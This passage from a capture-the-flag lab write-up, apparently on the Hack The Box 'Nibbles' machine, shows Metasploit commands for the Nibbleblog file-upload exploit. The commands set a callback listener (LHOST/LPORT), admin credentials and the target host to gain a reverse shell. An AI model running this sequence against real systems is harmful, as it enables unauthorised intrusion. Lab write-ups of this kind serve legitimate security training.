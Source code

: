 * I found an exploit for a File Upload vulnerability existed, so I entered the context of this exploit and found out what parameters I needed to execute it

{% code overflow="wrap" lineNumbers="true" %}
```bash
msf6 > use exploit/multi/http/nibbleblog_file_upload
msf6 exploit(multi/http/nibbleblog_file_upload) > show options
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>

***

* I provide the asked parameters and run the script

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST 10.10.14.80
msf6 exploit(multi/http/nibbleblog_file_upload) > set LPORT 4444
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.129.93.176
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog
```

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>
